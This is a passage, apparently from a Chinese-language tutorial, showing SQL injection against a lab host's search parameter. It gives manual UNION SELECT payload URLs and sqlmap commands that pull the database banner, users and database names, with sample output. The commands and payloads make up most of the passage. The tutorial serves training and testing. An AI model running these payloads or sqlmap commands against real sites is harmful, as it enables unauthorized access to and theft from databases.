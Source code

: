 应用程序没有触发任何的错误，我们可以说该查询包含4个字段，并且els2，els2显示在页面中。此外，我们知道search有联合注入，比利用布尔注入更加高效。
```
http://sqlmap.test/search.php?search=notexists' UNION SELECT 'els1','els2','els3','els3'; -- -
```

告诉工具使用`-p`测试search参数。

告诉sqlmap使用那种注入技术，大多数时候，sqlmap自己设置好技术，但是这意味着执行有噪音且容易被发现的攻击面。除此之外，一些Web应用程序会崩溃，或者无响应。所以对每一个利用场景，配置sqlmap使用最好的技术。`--technique=U`，使用联合注入。

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U
```

sqlmap自动检测后端数据库，点击回车，只执行针对mysql的测试。我们也可以通过再次点击回车，让工具执行所有对mysql的测试。

在执行测试后，sqlmap确定search有联合注入。所以我们可以在这里开始测试。

为了验证我们可以获取后端数据库的banner，`--banner`。

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --banner

banner: '5.5.41.0-0+wheezy1'
```

这次，我们想知道sqlmap使用了哪些payloads，所以我们在命令行中使用`-v3`。

`--fresh-queries`：删除缓存。

这是sqlmap用来提取数据库banner的payload。
```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --banner -v3 --fresh-queries

[PAYLOAD] n' UNION ALL SELECT NULL, NULL, CONCAT(0x71746c6171, IFNULL(CAST(VERSION() AS CHAR), 0x20), 0x7172657671), NULL#
```

你可以手动测试它，通过将它复制粘贴到search参数的地址栏中。将`#`替换成URL编码后的版本。我们可以在输出页面看到结果。

```
http://sqlmap.test/search.php?search=n' UNION ALL SELECT NULL, NULL, CONCAT(0x71746c6171, IFNULL(CAST(VERSION() AS CHAR), 0x20), 0x7172657671), NULL%23
```

我们可以枚举Web应用程序包含的数据库用户，通过使用`--users`命令。这里只有一个用户：
```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --users

database management system users [1]:
[*] 'blog'@'%'
```

检查哪个数据库连接到应用程序，通过使用：`--dbs`。

```
sqlmap -u 'http://sqlmap.test/search.php?search=n' -p search --technique=U --dbs

available databases [2]:
[*] blogdb
[*] information_schema
```
